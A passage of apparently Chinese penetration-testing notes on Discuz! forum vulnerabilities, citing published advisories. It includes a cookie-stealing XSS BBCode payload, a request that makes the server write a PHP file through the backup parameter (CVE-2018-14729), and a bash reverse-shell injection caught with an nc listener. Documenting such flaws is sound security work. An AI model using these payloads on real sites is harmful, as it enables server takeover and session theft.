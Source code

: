参考链接：https://www.seebug.org/vuldb/ssvid-93680
#### 演示11：Discuz! 所有版本永久型跨站漏洞
个人中心里的“个人签名”没有对恶意代码进行检测，在 Discuz! 及 img 代码禁用的情况下仍可写入恶意代码，Discuz! 会保存并执行该代码，形成永久型跨站。
参考链接：https://www.seebug.org/vuldb/ssvid-19342
#### 演示12：Discuz! 7.x csrf+存储xss(富文本)脱裤(2处)和后台sql(root getshell)(附带exploit)
在发帖或回帖处设置内容为“[audio]javascript:alert(document.cookie)//.wav[/audio]”，触发XSS


参考链接：https://www.seebug.org/vuldb/ssvid-93737
#### 演示13：Discuz! trade.php 数据库'注射' bug
问题在trade,php中，找到类似于如下请求包，设置目录以及message参数中的payload（注意：一定是199个A）

之后会执行XSS。
参考链接：http://h2016.blog.163.com/blog/static/100863425200810413817385/
## 命令/代码执行漏洞
### 漏洞描述：Discuz组件中有部分功能代码未对用户的输入进行很好的过滤，导致可植入系统命令或代码到服务器执行。涉及URL如下：
#### 管理后台-站长-数据库-数据库备份->演示1
#### 文件上传-预览->演示2
#### Discuz6.x，7.x任何帖子有表情的地方->演示3
#### convert插件-/config.inc.php->演示4
http://ip/utility/convert/index.php?a=config&source=d7.2_x2.0
#### 发表日志-添加网络图片处->演示5
#### 管理后台-全局-网站第三方统计代码->演示6
#### misc.php ->演示7
http://ip/misc.php?action=imme_binding&response[result]=aa:b&scriptlang[aa][b]=
#### admin\runwizard.inc.php->演示8
http://ip/bbs/admincp.php?action=runwizard&step=3
#### 管理后台-站长-Ucenter设置-设置UcenterIP处->演示9
#### 管理后台-已启用插件-接口信息-App key处->演示10
### 测试步骤与截图：
#### 演示1：Discuz! 1.5-2.5 后台命令执行漏洞(CVE-2018-14729)
在管理后台-站长-数据库-备份中选择好要备份的表、数据和备份的方式


提交，使用burpsuit抓包，修改customtables[] = pre_common_admincp_cmenu">aaa; echo '<?php phpinfo(); ?>' > phpinfo.php #

成功

参考链接：
https://www.seebug.org/vuldb/ssvid-97510
https://www.anquanke.com/post/id/158270
#### 演示2：Discuz X2.5 /source/class/class_image.php 命令执行漏洞
在发贴上传附件，上传图片附近，预览抓包修改为以下链接
GET/dzx25/forum.php?mod=image&aid=1&size=|bash%20i%20>%26%20/dev/tcp/127.0.0.1/8888%200>%261|x300&key=68b54146d9d1bfb2ebb38f44f2427454&nocache=yes&type=1&ramdom=xfie9
使用nc命令监听本地8888端口，成功获取到反弹的shell

